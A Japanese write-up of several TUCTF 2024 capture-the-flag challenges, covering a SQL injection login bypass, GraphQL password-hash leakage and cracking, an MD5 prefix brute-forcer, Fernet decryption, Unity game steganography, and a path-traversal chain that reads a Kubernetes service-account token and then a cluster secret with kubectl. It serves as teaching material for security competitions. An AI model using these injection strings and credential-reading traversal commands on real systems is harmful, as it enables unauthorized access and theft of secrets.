




# TUCTF 2024 Writeup / Upsolve

TUCTF 2024（<https://ctftime.org/event/2584>）に参加しました。  
金, 24 1月 2025, 19:00 UTC — 日, 26 1月 2025, 19:00 UTC

チーム0nePaddingで参加しました。  
公式タイトルは2024ですが、2025年のCTFです。  
Web問は3問しか無かったですが、その分MiscにWeb問題ぽいのが何個かありました。  
問題と公式Writeupは[こちら](https://github.com/nsr3953/tuctf24-public)。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [Web](#web)
  - [My First Secret](#my-first-secret)
  - [Med Graph](#med-graph)
  - [Shopping Time](#shopping-time)
- [Cryptography](#cryptography)
  - [Files In The Web](#files-in-the-web)
- [Miscellaneous](#miscellaneous)
  - [Haunted Game](#haunted-game)
  - [Silly Cloud](#silly-cloud)

<!-- /code_chunk_output -->

## Web

### My First Secret

ソースコード無し。

問題サーバにアクセスするとログイン画面が表示される。  
ログイン処理にてSQLインジェクションの脆弱性があるので、`'or'1'='1`とかでログインができる。  
その後、`/secret`にアクセスすると、以下のようなマークが表示される。


調べるとSteel Alphabetが該当しそう。  
<https://coppermind.net/wiki/Steel_alphabet>

問題文からフラグの形式は`TUCTF{<SECRET>}`で、空白は`_`にするらしいので以下がフラグ。

```text
TUCTF{THERE_IS_ALWAYS_ANOTHER_SECRET}
```

### Med Graph

GraphQLの問題。ソースコードは無し。

- 問題文

```text
Easy
My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: Demo:TUCTF. We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.
```

問題文から`Demo:TUCTF`で患者（ゲスト）としてログインできるが、フラグを取るには医師の権限でログインする必要がありそう。  
とりあえず患者でログインして、読み込まれているJavaScriptを見ると、GraphQLのクエリを確認できた。

- `/frontend/static/js/dashboard.js`

```js
async function fetchPatientData() {
    const query = `
        {
            userData {
                name
                age
                medicalHistory
                medications {
                    name
                    dosage
                    description
                }
                doctor {
                    name
                    department
                }
            }
        }
    `;

    const response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ query })
    });

    const result = await response.json();
    displayPatientInfo(result.data.userData);
}
...<SNIP>...
```

試しにIntrospectionクエリで情報を確認すると、`doctor`オブジェクトには`password`フィールドが存在することが分かった。

以下のようなクエリを送信する。

```graphql
{
    userData {
        doctor {
            name
            password
        }
    }
}
```

すると、担当医師の名前とパスワードのハッシュ値が帰ってきた。

```json
{
  "data": {
    "userData": {
      "doctor": {
        "name": "Ivy",
        "password": "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47"
      }
    }
  }
}
```

hashcatなどを使うと、パスワードは`madjac`であることが分かる。  
最後に`Ivy:madjac`でログインするとフラグが出力される。

```text
TUCTF{w3_7h1nk_1n_6r4ph5}
```

### Shopping Time

MD5の衝突問題。ソースコードあり。

商品名を`item`パラメータとして送信しており、`item`からMD5ハッシュ値を計算した結果がidと一致していれば該当の商品情報が出力される。

- `app.py`(抜粋)

```python
item = request.args.get("item")
if item == "Flag":
    return("Blacklisted term detected")
hash = hashlib.md5(item.encode()).hexdigest()
result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
```

`Flag`のMD5の計算結果とidが一致していればフラグを取得できるが、`item`に直接`Flag`を入れるとはじかれる。  
ただし、idはハッシュ値の先頭6文字だけのようなので、`Flag`文字列の先頭6文字（`c58360`）が一致する他の文字列を総当たりすれば良さそう。

- `solver.py`

```py
import hashlib
import itertools
import string

TARGET = 'Flag'
TARGET_PREFIX = hashlib.md5(TARGET.encode()).hexdigest()[0:6]
print(f'Target: {TARGET_PREFIX}')
PREFIX_LENGTH = len(TARGET_PREFIX)

MIN_LENGTH = 1
MAX_LENGTH = 8

def find_string():
    chars = string.ascii_letters + string.digits
    for length in range(MIN_LENGTH, MAX_LENGTH + 1):
        for candidate in itertools.product(chars, repeat=length):
            test_string = ''.join(candidate)
            md5_hash = hashlib.md5(test_string.encode()).hexdigest()
            if md5_hash.startswith(TARGET_PREFIX) and TARGET != test_string:
                return test_string, md5_hash
    return None, None

result, hash_value = find_string()
if result:
    print(f"Found match: {result} -> {hash_value}")
else:
    print("No match found.")
```

```bash
$ python solver.py 
Target: c58360
Found match: aMR2f -> c583603dc713783313f22b546113cbd0
```

後は`item=aMR2f`でリクエストを送ると、フラグが帰ってくる。

## Cryptography

### Files In The Web

謎のファイル群`files.zip`と実行ログ`tornadolog.evtx`が与えられる。

```bash
$ unzip files.zip
$ tree files
files
├── aammrbdwgw.txt
├── aiwjwlipse.txt
├── attsgdlukc.txt
...<SNIP>...
├── zeoorikiun.txt
├── zrpyfjclfr.txt
└── zyeocwpvli.txt

1 directory, 101 files
```

実行ログにはファイル生成処理がほとんどで、特に意味は無さそうだったが、最後の2行に暗号化処理とその実行コマンドが書かれていた。



該当ファイルの暗号分の先頭から、Fernetで暗号化されたデータだと推測できる。
ChatGPTで聞いたら復号するスクリプトを教えてくれたので、復号処理を実行するとフラグになった。

```py
from cryptography.fernet import Fernet

key = b'UIYfpIrqvzvTedjR1qFm66K1MYYlwNgUQlgpZPfLs3k='
cipher_suite = Fernet(key)
cipher_text = b"gAAAAABnSr5MS-gH-RLqtV1ltw_hBuwujvt6S-Ku3pOdgSpAiby55EGOI3JMpv3JX6ptlhnC8cT4UdfqiIck6RDgobhASUKPJlZMkV0Js82Xx-kIHKywirHeGBqKQimJ672sPnbeWL1e"

plain_text = cipher_suite.decrypt(cipher_text)
print(plain_text.decode())
# TUCTF{1T$__t0rn@d0$zn__nz$0d@nr0t__$T1}
```

## Miscellaneous

### Haunted Game

Unity製ゲームのRev? + ステガノ問。
謎のUnity製のゴースト探索ゲームが与えられる。


少しプレイしてみると、4枚メモを確認でき、それが問題を解くヒントとなっているっぽい。  
また、ゴーストも何種類か確認できた。（ゴースト出現時の音量がうるさかったのでミュートにしました。）


どうやらチートを使ってゴーストを倒すとかそういった趣旨では無さそう。  
また、メモは全部で5枚あるようだが、4枚までしか通常プレイでは確認できなさそう。

ということで、リソースを抽出してみる。  
[AssetRipper](https://github.com/AssetRipper/AssetRipper)を使う。



取得できなかったメモには、並び順の規則が書かれていた。見た感じRGBの数値から小さい順位並び替えるっぽい。


他のメモを改めて確認してみると以下のようなことがわかる。

- ゴーストは全部で12種類
- 音声や画像の色（RGB + A）に何かが隠されている

全部抽出して音声をいろいろ調べていると、スペクトル解析を実行した時にアルファベットが書かれていた。（1音声当たり3文字。）

解析には以下のオンライン解析サイトを利用した。

- <https://academo.org/demos/spectrum-analyzer/>



各3文字の順番は、該当のゴーストの画像のRGBから並び替えれば良さそう。  
後は、ゴーストの並び順だけだが、画像の透過度を使っていないので、その順番だと考えられる。



競技中は手動で確認したが、せっかくなのでスクリプトを書いてみる。

- `solver.py`

```py
import os
from PIL import Image

ghosts = {
    'Yoda': {'chars': '210', 'alpha': 255, 'rgb': [0,0,0]},
    'Clyde': {'chars': 'AM_', 'alpha': 255, 'rgb': [0,0,0]},
    'Zero': {'chars': 'TUC', 'alpha': 255, 'rgb': [0,0,0]},
    'Gengar': {'chars': 'EN_', 'alpha': 255, 'rgb': [0,0,0]},
    'Casper': {'chars': 'ETH', 'alpha': 255, 'rgb': [0,0,0]},
    'Slimer': {'chars': 'F{T', 'alpha': 255, 'rgb': [0,0,0]},
    'Inky': {'chars': 'S_T', 'alpha': 255, 'rgb': [0,0,0]},
    'Pinky': {'chars': '18}', 'alpha': 255, 'rgb': [0,0,0]},
    'Blinky': {'chars': '_NI', 'alpha': 255, 'rgb': [0,0,0]},
    'DannyPhantom': {'chars': '019', 'alpha': 255, 'rgb': [0,0,0]},
    'MoaningMyrtle': {'chars': 'GOH', 'alpha': 255, 'rgb': [0,0,0]},
    'BloodyMary': {'chars': 'ICH', 'alpha': 255, 'rgb': [0,0,0]},
}

def get_color(image_path):
    with Image.open(image_path) as img:
        img = img.convert('RGBA')
        width, height = img.size
        center_x, center_y = width // 2, (height // 4 * 3) # 雑に位置調整
        return img.getpixel((center_x, center_y))

def get_flag(directory):
    image_files = [f for f in os.listdir(directory) if f.lower().endswith('png') and f[:-4] in ghosts]
    image_alpha = {}

    # 各画像の色情報を取得
    for image_file in image_files:
        image_path = os.path.join(directory, image_file)
        r, g, b, a = get_color(image_path)
        name = image_file[:-4]
        ghosts[name]['rgb'] = [r, g, b]
        ghosts[name]['alpha'] = a

    # アルファ値で降順ソート
    sorted_items = sorted(ghosts.items(), key=lambda x: x[1]['alpha'], reverse=True)

    # フラグを生成
    keys = []
    for name, item in sorted_items:
        print(f"{name}: {item}")
        key_items = sorted(zip(item['rgb'], list(item['chars'])))
        key = ''.join([k[1] for k in key_items])
        keys.append(key)
    return ''.join(keys)

print(get_flag('./images'))
```

```bash
$ python solver.py 
Zero: {'chars': 'TUC', 'alpha': 231, 'rgb': [4, 9, 105]}
Slimer: {'chars': 'F{T', 'alpha': 219, 'rgb': [99, 227, 52]}
MoaningMyrtle: {'chars': 'GOH', 'alpha': 210, 'rgb': [35, 112, 88]}
Inky: {'chars': 'S_T', 'alpha': 203, 'rgb': [23, 207, 194]}
Blinky: {'chars': '_NI', 'alpha': 197, 'rgb': [212, 29, 8]}
Casper: {'chars': 'ETH', 'alpha': 189, 'rgb': [61, 45, 52]}
Clyde: {'chars': 'AM_', 'alpha': 183, 'rgb': [201, 106, 22]}
BloodyMary: {'chars': 'ICH', 'alpha': 179, 'rgb': [77, 6, 17]}
Gengar: {'chars': 'EN_', 'alpha': 174, 'rgb': [63, 6, 79]}
Yoda: {'chars': '210', 'alpha': 164, 'rgb': [27, 74, 10]}
DannyPhantom: {'chars': '019', 'alpha': 158, 'rgb': [16, 96, 224]}
Pinky: {'chars': '18}', 'alpha': 152, 'rgb': [238, 15, 242]}
TUCTF{GHOST_IN_THE_MACHINE_02101981}
```

### Silly Cloud

最後の最後で解けなかった問題。

Webサイトのリンクが与えられる。ソースコード等の情報は無し。  
ディレクトリトラバーサルの脆弱性があるため、サーバ内部のファイルにアクセスができる。

- サーバソースコード
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../proc/self/cwd/app.py`

```py
from flask import Flask, request, render_template
from os import getenv
import subprocess
import logger

app = Flask(__name__)
# app.debug = True
app.static_folder = 'static'
app.template_folder = 'templates'
app.static_url_path = '/static'
app.secret_key = getenv('SECRET_KEY', 'this_is_not_the_flag_you_are_looking_for')
...<SNIP>...
@app.route('/')
def index():
    return render_template('dashboard.html')

@app.route('/api/secrets')
def get_flag():
    return subprocess.check_output(['cat', 'flag.txt'])

@app.route("/services")
def services():
    return render_template("services.html", title="Services")

@app.route("/services/<service>")
def serverless(service):
    return render_template(f"{service}.html", title=f"CloudControl {service.title()}")
...<SNIP>...
@app.route('/logs', methods=['GET'])
def get_logs():
    file_name = request.args.get('service')
    if not file_name:
        return "No service specified", 404
    try:
        if "/dev" in file_name:
            return "Stop trolling", 403
        with open(f'logs/{file_name}', 'r') as file:
            content = file.read()
            return render_template('logs.html', logs=content,service=file_name)
    except Exception as e:
        return f"Error: {str(e)}", 404
    
@app.route('/settings', methods=['GET'])
def settings():
    return 'Settings page coming soon'

if __name__ == '__main__':
    app.config['TEMPLATES_AUTO_RELOAD'] = True
    app.run(host='0.0.0.0', port=8000)
```

`flag.txt`があるが、ダミーのため、アクセスしてもフラグは取れない。  

問題タイトル的にクラウドサービスを利用していると思われるため、何か認証情報はないか探してみる。

- 環境変数
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../proc/self/environ`

```text
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=silly-cloud-689c6795cc-9l9wb
LANG=C.UTF-8
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
PYTHON_VERSION=3.10.16
PYTHON_SHA256=bfb249609990220491a1b92850a07135ed0831e41738cf681d63cf01b2a8fbd1
SECRETS_NAMESPACE=secret-namespace
DEV_CLUSTER_ADDR=https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com
...<SNIP>...
HOME=/nonexistent
```

`k8s`という文字があり、Kubernetesが使われていそうなので、認証情報がないか調べる。

- トークン
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../run/secrets/kubernetes.io/serviceaccount/token`

```text
eyJhbGciOiJSUzI1NiIsImtpZCI6IjU2NnhHZDhPTmVtZ...<SNIP>...AJ2cJKzAr6BCm3iIWcJkH16TaQj-FQnwjT1-TVBgQ8_vALOFlj4BPlx6ctpwoKQ
```

Kubernetesクラスターのアクセス先とアクセストークンが取得できたので、次に、どんなリソースにアクセスできるか調べる。

```bash
$ export TOKEN=$(cat token)
$ export K8S_API="https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com"
$ kubectl --token=$TOKEN --server=$K8S_API auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/.well-known/openid-configuration]    []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
                                                [/apis]                                []               [get]
                                                [/healthz]                             []               [get]
                                                [/healthz]                             []               [get]
                                                [/livez]                               []               [get]
                                                [/livez]                               []               [get]
                                                [/openapi/*]                           []               [get]
                                                [/openapi]                             []               [get]
                                                [/openid/v1/jwks/]                     []               [get]
                                                [/openid/v1/jwks]                      []               [get]
                                                [/readyz]                              []               [get]
                                                [/readyz]                              []               [get]
                                                [/version/]                            []               [get]
                                                [/version/]                            []               [get]
                                                [/version]                             []               [get]
                                                [/version]                             []               [get]
```

nodeへのアクセスや編集はできなさそうで、/api/配下にも特に気になる情報は無かった。  
環境変数を改めて見てみると、`SECRETS_NAMESPACE=secret-namespace`を確認できるので、これをNamespaceとして指定してみる。

```bash
$ kubectl --token=$TOKEN --server=$K8S_API auth can-i --list -n secret-namespace
Resources                                       Non-Resource URLs                      Resource Names      Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []                  [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []                  [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []                  [create]
                                                [/.well-known/openid-configuration/]   []                  [get]
                                                [/.well-known/openid-configuration]    []                  [get]
                                                [/api/*]                               []                  [get]
                                                [/api]                                 []                  [get]
                                                [/apis/*]                              []                  [get]
                                                [/apis]                                []                  [get]
                                                [/healthz]                             []                  [get]
                                                [/healthz]                             []                  [get]
                                                [/livez]                               []                  [get]
                                                [/livez]                               []                  [get]
                                                [/openapi/*]                           []                  [get]
                                                [/openapi]                             []                  [get]
                                                [/openid/v1/jwks/]                     []                  [get]
                                                [/openid/v1/jwks]                      []                  [get]
                                                [/readyz]                              []                  [get]
                                                [/readyz]                              []                  [get]
                                                [/version/]                            []                  [get]
                                                [/version/]                            []                  [get]
                                                [/version]                             []                  [get]
                                                [/version]                             []                  [get]
secrets                                         []                                     [top-secret-flag]   [get]
```

すると、一番下にアクセス可能な`top-secret-flag`リソースを確認できる。

```bash
$ kubectl --token=$TOKEN --server=$K8S_API get secret top-secret-flag -n secret-namespace -o json
{
    "apiVersion": "v1",
    "data": {
        "flag": "VFVDVEZ7M3Zlbl9tMDRyXzUxbGx5X2QzZjR1bDc1fQo="
    },
    "kind": "Secret",
...<SNIP>...
}
```

リソースにアクセスすると、Base64エンコードされたフラグが確認できる。

他の人のWriteupを見ていると、認証情報を`~/.kube/config`に書いていて、そっちの方がいちいちtokenやserverオプションで指定しなくていいので楽かもしれない。
